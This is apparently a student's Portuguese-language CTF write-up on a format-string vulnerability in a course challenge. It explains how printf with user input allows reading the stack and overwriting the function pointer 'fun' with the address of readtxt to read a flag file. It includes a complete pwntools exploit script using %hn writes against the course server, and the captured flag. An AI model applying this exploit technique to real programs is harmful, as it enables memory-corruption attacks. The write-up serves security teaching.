


# CTF Semana 6 (Format Strings)


## Tarefas

### Analise do sistema

À semelhança do CTF anterior, começamos por executar o commando `checksec` de forma a identificar as proteções existentes e deste modo, ataques possíveis.




### Análise do código source

De seguida, analisamos o código source de forma a percebermos melhor o seu funcionamento, respondendo às seguintes questões:


**Existe algum ficheiro que é aberto e lido pelo programa?** - Sim, a função `readtxt` é responsável pela leitura de um ficheiro passado como argumento. Esta função é chamada a partir do *function pointer*  `fun`.


**Existe alguma forma de controlar o ficheiro que é aberto?** - Sim, à semelhança do CTF anterior, se conseguirmos passar como argumento dessa função o buffer (que tem os conteúdos fornecidos pelo utilizador), conseguimos abrir qualquer ficheiro.

**Existe alguma format string? Se sim, em que é vulnerável e o que podes fazer?** - Sim, os conteúdos do buffer são escritos no terminal com a função `printf`. Com isto, torna-se possível passar várias _format strings_ `%x` ao buffer, de forma a alcançar um endereço específico escolhido pelo atacante.


## Execução do Ataque

De forma a tornar o ataque possível, a nossa ideia foi tentar executar a função `readtxt` e passar no parâmetro `name` a string `./flag`, com o objetivo de ler o ficheiro `flag.txt`. Percebemos que teriamos que alterar, à semelhança do CTF anterior, o valor da variável `fun`, para o da função `readtxt`. Sendo assim, adicionamos ao buffer o valor `./flag` (utilizado pela função `readtxt`) e o endereço da variável `fun` fornecida pelo programa no servidor. Assim, com a utilização de sucessivos `%x`, conseguiamos alcançar este valor, como estudado no **LOGBOOK6**, e alterar o seu conteúdo, usando `%n`.

### Forma rápida

Após realizarmos o ataque da forma mais simples, como realizado no **LOGBOOK6**, reparamos que, este demorava demasiado tempo a executar. Isto deve-se ao facto de o valor a ser escrito ser muito grande, e ter que se dar *print* de um número de caracteres igual ao pretendido. De forma a resolver este problema, optámos pela realização do ataque de uma forma ligeiramente diferente. Ao invés de utilizarmos `%n` e escrever os 4 bytes do endereço `readtxt` de uma só vez, utilizamos dois `%hn` de forma a escrever 2 bytes de cada vez.

Script Malicioso:

```python
#!/usr/bin/python3
from pwn import *

mode = input("Select run mode [r/l]: ") # correr localmente ou remotamente
if (mode== "r"):
    r = remote('ctf-fsi.fe.up.pt',4005)
    #r = remote('127.0.0.1', 4003)
else:
    r = process('./program')

size = 99
payload = bytearray(0x01 for i in range(size))


payload[0:6]= b"./flag" # inserir a flag no ínicio do buffer

funAddress1  = b"\x32\xe1\xbc\xff"
funAddress2 =  b"\x30\xe1\xbc\xff"

payload[8:12]  = funAddress1
payload[16:20] = funAddress2

#s = "%.8x" + "%.134518677x" + "%n" método mais lento, com bastantes prints (não utilizado)
#36769

s = "%.8x" + "%.2024x" + "%hn" + "%.36769x" +  "%hn" # método mais rápido

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
payload[20:20+len(fmt)] = fmt


context(arch='i386')

res = r.recvuntil(b"flag:\n")
print(res)
address = int(res.decode('utf-8').split("hint: ")[1][:8], 16) # dinamicamente obter o endereço de memória do fun
print(address)

payload[8:12]  = (address + 2).to_bytes(4, byteorder='little')
payload[16:20] = (address).to_bytes(4, byteorder='little')


r.sendline(payload)

buf = r.recvall().decode(errors="backslashreplace")
print(buf)
```

Execução do script:



Podemos verificar que ao correr o script obtemos a `flag{L34k1ng_Fl4g_0ff_Th3_St4ck_44789C2D}`, demonstrando o sucesso do nosso ataque.
